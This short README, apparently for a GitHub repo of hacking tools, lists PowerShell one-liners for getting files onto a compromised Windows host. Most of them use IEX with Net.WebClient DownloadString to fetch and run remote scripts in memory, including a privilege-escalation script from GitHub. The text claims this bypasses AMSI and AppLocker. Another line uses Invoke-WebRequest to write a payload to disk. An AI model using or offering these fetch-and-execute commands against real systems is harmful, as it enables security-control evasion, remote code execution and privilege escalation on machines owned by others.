 # Synapse

> Repo for {Hacking Tools}

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
> use it to via github

`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/evilNeuron/Synapse/master/privesc/windows/PowerUpInvoke.ps1')`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`
